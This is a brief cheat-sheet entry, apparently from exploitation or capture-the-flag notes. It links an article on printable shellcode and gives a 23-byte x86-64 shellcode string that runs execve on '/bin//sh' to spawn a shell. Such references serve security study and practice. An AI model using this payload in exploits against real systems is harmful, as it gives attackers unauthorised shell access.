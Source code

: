 1. Printable Shellcode<br>
http://bobao.360.cn/learning/detail/3720.html<br>
2. x86-64 shellcode<br>
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"<br>
